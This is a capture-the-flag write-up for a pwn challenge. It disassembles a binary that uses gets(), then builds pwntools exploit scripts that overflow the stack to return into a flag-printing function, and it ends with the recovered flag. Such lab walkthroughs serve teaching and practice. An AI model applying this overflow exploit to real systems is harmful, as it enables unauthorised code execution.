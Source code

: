 # pwn 01

Category: PWN
Points: 263
Solves: 14
Author: @mrerror0790

Challenge Description:
Can you return my flag here?

nc pwn01.ctf.teamquark.com 65301

Artifact Files:
[pwn01.zip](./pwn01.zip)

## Quick overview

This is just a basic program that seems to take our input and terminate ! Let's see 
how it works under the hood and if we have potential vulnerabilities

## Running the binary

```
┌───────────────────────────────────────────────────────────────────────┐
│ ██████╗ ██╗   ██╗ █████╗ ██████╗ ██╗  ██╗     ██████╗████████╗███████╗│
│██╔═══██╗██║   ██║██╔══██╗██╔══██╗██║ ██╔╝    ██╔════╝╚══██╔══╝██╔════╝│
│██║   ██║██║   ██║███████║██████╔╝█████╔╝     ██║        ██║   █████╗  │
│██║▄▄ ██║██║   ██║██╔══██║██╔══██╗██╔═██╗     ██║        ██║   ██╔══╝  │
│╚██████╔╝╚██████╔╝██║  ██║██║  ██║██║  ██╗    ╚██████╗   ██║   ██║     │
│ ╚══▀▀═╝  ╚═════╝ ╚═╝  ╚═╝╚═╝  ╚═╝╚═╝  ╚═╝     ╚═════╝   ╚═╝   ╚═╝     │
└───────────────────────────────────────────────────────────────────────┘
Yo hackers give me the address to find out my way ............!
>qsdqsd

(binary terminated)
```

## Information Gathering

The file is an ELF 64 executable (LSB) and the following securities are applied
```
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH	Symbols		FORTIFY	Fortified
Partial RELRO   No canary found   NX enabled    No PIE          No RPATH   No RUNPATH   67 Symbols	  No	0	
```

Seems we got lucky, there is no canary or PIE but NX is enabled and since libc wasn't given it's unlikely
to be ret2libc or shellcode injection.

## CODE

Reverse Engineering tool : **radare2**


Listing the functions in the binary we get this list : 
```
0x00401080    1     42 entry0
0x004010c0    4     31 sym.deregister_tm_clones
0x004010f0    4     49 sym.register_tm_clones
0x00401130    3     28 sym.__do_global_dtors_aux
0x00401160    1      2 sym.frame_dummy
0x00401290    1      1 sym.__libc_csu_fini
0x00401294    1      9 sym._fini
0x00401162    1     37 sym.way_out
0x00401040    1      6 sym.imp.puts
0x00401050    1      6 sym.imp.system
0x00401230    4     93 sym.__libc_csu_init
0x004010b0    1      1 sym._dl_relocate_static_pie
0x00401187    1    154 main
0x00401030    1      6 sym.imp.putchar
0x00401070    1      6 sym.imp.fflush
0x00401060    1      6 sym.imp.gets
0x00401000    3     23 sym._init
```

we get a lot of standard functions and the main function of the binary but also **sym.way_out**

**way_out**:
```asm
│           0x00401162      55             push rbp
│           0x00401163      4889e5         mov rbp, rsp
│           0x00401166      bf08204000     mov edi, str.Yo_buddy_you_got_me_out..._ ; 0x402008 ; "Yo buddy you got me out...!" ; const char *s
│           0x0040116b      e8d0feffff     call sym.imp.puts           ; int puts(const char *s)
│           0x00401170      bf24204000     mov edi, str._bin_cat_flag.txt ; 0x402024 ; "/bin/cat flag.txt" ; const char *string
│           0x00401175      e8d6feffff     call sym.imp.system         ; int system(const char *string)
│           0x0040117a      bf36204000     mov edi, 0x402036           ; '6 @' ; "\n" ; const char *s
│           0x0040117f      e8bcfeffff     call sym.imp.puts           ; int puts(const char *s)
│           0x00401184      90             nop
│           0x00401185      5d             pop rbp
└           0x00401186      c3             ret
```

Seems like the way_out function prints "Yo buddy you got me out...!" and read the flag file.
This seems like we're gonna have to make the program return to this function somehow.

Now let's check the main function for vulnerabilities.

**main**:
```asm
│           0x00401187      55             push rbp
│           0x00401188      4889e5         mov rbp, rsp
│           0x0040118b      4883ec30       sub rsp, 0x30 // Allocates 48 bytes on the stack
│           0x0040118f      897ddc         mov dword [rbp-0x24], edi    ; argc
│           0x00401192      488975d0       mov qword [rbp-0x30], rsi    ; argv
│           0x00401196      bf38204000     mov edi, 0x402038           ; '8 @' ; const char *s
│           0x0040119b      e8a0feffff     call sym.imp.puts           ; int puts(const char *s)
│           0x004011a0      bf18214000     mov edi, str._______________ ; 0x402118 ; const char *s
│           0x004011a5      e896feffff     call sym.imp.puts           ; int puts(const char *s)
│           0x004011aa      bfd8214000     mov edi, str.________       ; 0x4021d8 ; const char *s
│           0x004011af      e88cfeffff     call sym.imp.puts           ; int puts(const char *s)
│           0x004011b4      bfa8224000     mov edi, str.________________________ ; 0x4022a8 ; const char *s
│           0x004011b9      e882feffff     call sym.imp.puts           ; int puts(const char *s)
│           0x004011be      bf58234000     mov edi, str.______________________ ; 0x402358 ; const char *s
│           0x004011c3      e878feffff     call sym.imp.puts           ; int puts(const char *s)
│           0x004011c8      bf08244000     mov edi, str._____________________ ; 0x402408 ; const char *s
│           0x004011cd      e86efeffff     call sym.imp.puts           ; int puts(const char *s)
│           0x004011d2      bfc0244000     mov edi, str.__________________________ ; 0x4024c0 ; const char *s
│           0x004011d7      e864feffff     call sym.imp.puts           ; int puts(const char *s)
│           0x004011dc      bf68254000     mov edi, str.               ; 0x402568 ; const char *s
│           0x004011e1      e85afeffff     call sym.imp.puts           ; int puts(const char *s)
│           0x004011e6      bf48264000     mov edi, str.Yo_hackers_give_me_the_address_to_find_out_my_way_............_ ; 0x402648 ; "Yo hackers give me the address to find out my way ............!" ; const char *s
│           0x004011eb      e850feffff     call sym.imp.puts           ; int puts(const char *s)
│           0x004011f0      bf3e000000     mov edi, 0x3e               ; '>' ; 62 ; int c
│           0x004011f5      e836feffff     call sym.imp.putchar        ; int putchar(int c)
│           0x004011fa      488b054f2e00.  mov rax, qword [obj.stdout] ; obj.__TMC_END__
│                                                                      ; [0x404050:8]=0
│           0x00401201      4889c7         mov rdi, rax                ; FILE *stream
│           0x00401204      e867feffff     call sym.imp.fflush         ; int fflush(FILE *stream)
│           0x00401209      488d45e0       lea rax, [rbp-0x20]
│           0x0040120d      4889c7         mov rdi, rax                ; char *s
│           0x00401210      b800000000     mov eax, 0
│           0x00401215      e846feffff     call sym.imp.gets           ; char *gets(char *s)
│           0x0040121a      b800000000     mov eax, 0
│           0x0040121f      c9             leave
└           0x00401220      c3             ret
```

As we can see here arguments are being copied on the stack:
- argc -> rbp-0x24 (int64_t)
- argv -> rbp-0x30 (8 bytes pointer since this is x64)

And there is a 32 bytes char buffer left to fill the rest of the stack.
Then the program prints a whole bunch of text for the banner and asks
us for input ! 

Now the big red flag is that it's using the function **gets()** which is incredibly famous
for being absolutely trash since it generates buffer overflows like a charity for hackers.

Since we have a 32 bytes buffer, any input over 32 will start writing memory on the stack.
Considering that rbp is pushed on the stack at the start of the function the return address
RIP will jump to after the main function executes is stored at offset **40** from the start of our
buffer.

Now we have all the ingredients for a juicy overflow:
- Buffer overflow in the main frame
- the offset to overwrite RIP
- the address of the function to read the flag

## Building an exploit

```py
#!/usr/bin/env python3

from pwn import *

context.log_level = 'error'
context.binary = elf = ELF('./src/pwn01')
context.arch = 'amd64'
context.endian = 'little'

if args.REMOTE:
    io = remote("pwn01.ctf.teamquark.com", 65301)
else:
    io = elf.process()

io.recvuntil(b'>')

offset = 40
address = elf.symbols['way_out']

payload = b'A' * offset
payload += pack(address)

io.sendline(payload)
io.interactive()
io.close()
```

Running this does print the first message of the way_out function
but seems like we fucked up the stack too much for it to call system afterwards.

A common trick I use in order to fix stacks for function calls
is calling a *ret* gadget on the function address which should rebuild a "healthy" stack around the function call

Using **ROPgadget** we find this, 0x0000000000401016 : ret

```py
#!/usr/bin/env python3

from pwn import *

context.log_level = 'error'
context.binary = elf = ELF('./src/pwn01')
context.arch = 'amd64'
context.endian = 'little'

if args.REMOTE:
    io = remote("pwn01.ctf.teamquark.com", 65301)
else:
    io = elf.process()

io.recvuntil(b'>')

offset = 40
ret_gadget =  0x401016
address = elf.symbols['way_out']

payload = b'A' * offset
payload += pack(ret_gadget)
payload += pack(address)

io.sendline(payload)
io.interactive()
io.close()
```

Now running the exploit we get this :
```
[~/Documents/CTF-Writeups/HackEnvision/pwn01]$ ./exploit.py REMOTE
quarkCTF{i7s_34sY_70_r37uN_0n_f14g}
```

And that's a success ! 
Here is the flag : quarkCTF{i7s_34sY_70_r37uN_0n_f14g}

[Back to home](../../README.md)